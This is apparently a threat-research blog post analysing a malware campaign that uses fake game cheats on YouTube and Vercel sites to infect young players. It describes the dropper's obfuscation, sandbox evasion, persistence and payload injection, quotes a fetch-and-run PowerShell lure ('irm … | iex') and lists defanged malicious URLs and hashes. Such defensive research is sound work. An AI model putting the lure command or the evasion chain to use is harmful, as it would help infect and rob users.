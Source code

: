 ```yaml
---
title: InfoStealer Turned Ransomware
categories:
 - Research
tags:
 - blog
 - Windows
 - Ransomware
 - research
 - RAT
date: 2025-10-16
description: Just when you thought a TA wouldn’t shift TTPs…
authors: 
- tr4ceang3l
- slavetomints
researchers: 
- slavetomints
- tr4ceang3l
- likerofjazz
- akithecatearedmerc
image:
  path: /assets/img/infostealer-turned-ransomware/odisrotz-github.png
  alt: GitHub profile of the TAs
  post: false
---
```


## Introduction
On the 19th of August 2025, an individual –here-by referred to as “V”– requested help on an unnamed Cybersecurity-oriented Discord server, seeking assistance regarding the recovery of a ransomware-infected system. V had claimed to be searching for a supposed “fixer” for a cheat related to Fortnite’s Retrac. Upon further investigation and triaging of V’s system, we discovered the initial social engineering domain `hxxps[://]retracfix[.]vercel[.]app` and a corresponding YouTube video that directed victims to the aforementioned domain. The domain intends to serve malware under the guise of a “system fixer” and a patch for Project Retrac.

![the infected system](/assets/img/infostealer-turned-ransomware/infected_system.jpg)
*V's infected system* 

## Initial Evaluations
During the initial investigation of the campaign, researchers at DeTraced identified the campaign as being led by a group of threat actors previously associated with the WebRAT malware. We are currently tracking this group as “Betray.” Upon identifying the potential threat actors, the investigation focused on the initial malware dropper, which was extracted from the domain linked to the infection.

The dropper was heavily obfuscated using various techniques, with a primary reliance on Base64 encoding and GZip compression to conceal its contents from the victim's antivirus software. The dropper’s first action upon execution is to perform hardware checks to detect the presence of common indicators for Virtual Machine (VM) environments. If these checks are successful, the malware will terminate its execution to avoid detection in a researcher’s environment.

If the sandbox evasion is successful and the dropper determines it is running on a legitimate victim’s system, it proceeds to execute a series of system commands via PowerShell. The dropper directs itself to the directory `C:\ProgramData` and checks if the folder `IntelDriver` exists. If the folder is not present, the dropper creates it. Once this directory is in place, the dropper creates a new file called `windows.cmd` and writes its own contents into it.

Next, the dropper reads the Base64-encoded content from any line in the `windows.cmd` file that begins with `::`, and decodes this content. The decoded data is saved to a file named `boot64x.w`. After completing this step, the dropper proceeds to establish persistence on the system by writing a VBScript to a file called `%computername%_windows64x_APZOacoasfjc.vbs`. This script is configured to run the dropper’s payload every minute by creating a Scheduled Task at the path `%AppData%\IntelDriverTask.xml`.

With persistence established, the dropper continues by setting up the main payload. It again reads from `windows.cmd`, specifically extracting data from the section prefixed with `rem`. This data is copied to a file named `netstat.c`. Once `netstat.c` is successfully written, the dropper decodes the Base64-encoded content, decompresses it using Gunzip, and stores the decompressed data into a `byte[]` object. Finally, this decoded content is saved as a valid binary to the file `AarSvcw.dll`.


Now that the main payload has been created, we can take a look at how the malware really operates. For the most part, the payload can be dissected with static analysis. The primary interests of the payload are its use of XOR to encrypt the strings with the single-byte key `0x5A`; using this key, we can decrypt most of the strings in the payload. As a fallback, the payload will recreate the Scheduled Task if, at some point, the file was deleted or moved to ensure persistence, the next stage is to consistently check if a debugger has been attached to the payload to which it will attempt to scramble the memory it’s in and immediately terminate itself to deter dynamic analysis, we can neutralise this check by simply patching the related function calls with `00`s. Once the persistence check has passed, the payload will proceed to extract another set of encrypted data stored within `boot64x.w` and loads it into memory, preparing itself to then inject the secondary payload into `explorer.exe`.

The contents of the secondary payload are currently unknown to us as we continue to investigate the malware and the affiliated campaign’s supply chain.

## Supply-chain Analysis
Betray uses YouTube videos that advertise cheats and "fixer" scripts for video games, aiming to get kids and teens who are looking for cheats for video games. The videos show the user running a script in Windows Command Prompt, and then it cuts to them playing the game with the supposed benefits of the cheat. During the video, the attacker will go over the installation process and will claim that the user's antivirus software will detect it, but it is a false positive. 

![the youtube videos](/assets/img/infostealer-turned-ransomware/videos.png)

This little bit of social engineering will be good enough to work on most users and trick the victim into interacting with the video description and following the website link, which brings them to an application hosted on Vercel. Betray has two different styles of websites. One type will have a download button for users to click on, and others will include a `irm [TINYURL LINK] | iex` command for the users to run on their systems.

![](/assets/img/infostealer-turned-ransomware/download-page.png)
![](/assets/img/infostealer-turned-ransomware/retrac-irm-iex.png)

In both cases, the goal is to get the user to download and run the batch or PowerShell scripts that Betray uses as a dropper for their malware.

Betray also includes directions on their websites for users to follow, which include having users ignore warnings from their antivirus software.

![](/assets/img/infostealer-turned-ransomware/download-instructions.png)

Once the victim follows these steps, the malware is now on the user's system and will execute. But where does the malware come from?

Inspecting the network connections when the file was downloaded revealed that it came from a release from a GitHub repository, so we went and checked it out.

![](/assets/img/infostealer-turned-ransomware/odisrotz-github.png)

This is one of multiple GitHub accounts found throughout this campaign. Inspection of the repositories either turned up an empty repository with 1-2 releases or a repository full of malware. Looking into the releases answered as to where the malware came from.

![](/assets/img/infostealer-turned-ransomware/odisrotz-releases.png)

Betray typically hides their malware in the repository releases, and when a victim clicks on the download button, it would redirect their browser to a link such as `hxxps[://]github[.]com/odisdrotz71/thermia/releases/download/Thermia/ThermiaPredictor[.]exe`. Further inspection of the GitHub account and its other repositories led to the discovery of more malicious websites for different games, including Roblox, a popular game among kids, Stake Mines, a minesweeper casino game, and Rainbow 6 Siege, an FPS shooter game.

Some of those sites looked like this:

![](/assets/img/infostealer-turned-ransomware/valex-vercel-app.png)
![](/assets/img/infostealer-turned-ransomware/valexexecutor-vercel-app.png)
![](/assets/img/infostealer-turned-ransomware/thermiapredictor.png)
![](/assets/img/infostealer-turned-ransomware/r6s-recoil.png)

It is worth noting that none of the other buttons on the websites would work; they would redirect back to the top of the page.

Betray has also leveraged GitHub Gists and `hxxps[://]filedoge[.]com` for distribution and hosting of samples; however, the `filedoge[.]com`web server has been offline since August 2025, and still is at the time of this report.

## Conclusion

After their stint with hiding RATs in video game cheats, the TA expanded into the malware selling scene, attempting to sell a strain known as XWorm on hxxps[://]rce[.]lol, and a batch script obfuscator on hxxps[://]betray[.]cfd. Analysis of bitcoin addresses found to be linked with the TA reveals that they never ended up receiving any payment through cryptocurrency, but they also used PayPal and Roblox gift cards.

Some sites remain active as we work to take them down, but most have been categorized by search engines as unsafe to browse.

## Indicators of Compromise

*For the full list of IOCs and YARA rules, please check out [DeTraced-Security/detection-rules](https://github.com/DeTraced-Security/detection-rules/tree/main/groups/betray)*

### RetracFix Sample:

```
Output DLL: AarSvcw.dll
Intermediates: windows.cmd, boot64x.w, netstat.c (used during reconstruction)

Hash – original BAT: 38aa08661729dd3c2ae3c1fb98f85f6aa4ff5e7385b0db2a65e9e85747848ad8
Hash - boot64x.w (Obfuscated): 5b1ed346d3a84543f527aa89135037d3bf56b9343b38cbeb340811da5d9a5e43 
Hash - AarSvcw.dll (Decoded): 2ce0dc292b81c72271bc9f0961271fac1e4d42b35292ce56b241174bbbeb4b46 
Hash - windows.cmd (Obfuscated): 07be8edabaa28e6d4ce30c5999b22aab53eac89a43fb036cd3cec15b63b7a81c
```

### Affiliated Samples
```
40b461edb9b2a18bc2ed8236789c1672  2fa.bat
7c92b6d50d1ab7ae24ee93d307c376f2  2faBeta.exe
bc1cfd626ef0eedcdcc46036b649c406  a.exe
780c2f5e127d12181b6650cededecd58  built-agbcfdxdfsdf.bat
161d57257ea219a030d2c902e85c5b18  CharmBootstrapper.bat
51b03d9bae4a53dd4e6210254084b806  ExecFix-2.bat
18bd43b2dfad0c247148db1afdf8462e  ExecFix.bat
220d8aa7e914dfbd52b29d25fbf5e9cd  LuckyGrid.exe
c8a8bf528e1ba3ff05ddd9368efd9f82  MinesPredictor.bat
b80538c353bd0a35e28b0b7c958a0689  r6_recoil.exe
0ee7449dd865145498ad23c43fba4754  retrac_fixer_loader.bat
da84fb352ca22ec2c94abd6f8851ea68  thermia.bat
e014911669d783a05005d48e9e6e8c2c  ThermiaPredictor-2.exe
8060fca6ac9ce3ebceba15f66db02443  ThermiaPredictor.exe
cf5005ebdc43ad19863b701025a4279b  ValexUpdater.exe
45bb4c63b0badff7721d2012b6482073  verbal.exe
fe5c839be7074513d2be80356e807fba  wcarrpt.bat
```
